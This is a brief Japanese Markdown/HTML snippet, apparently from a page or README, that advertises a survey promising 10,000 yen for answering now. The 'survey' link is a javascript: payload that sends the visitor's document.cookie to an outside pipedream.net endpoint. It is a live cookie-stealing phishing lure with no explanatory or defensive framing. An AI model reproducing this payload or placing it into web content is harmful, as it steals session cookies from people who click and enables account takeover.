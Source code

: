 # いろいろ対円だった

アンケートを実施しています<br>
今答えたら1万円<br>
<a href=javascript:window.location='https://enf4x5mbbhtg7.x.pipedream.net/?'.concat(document.cookie);>アンケート</a>
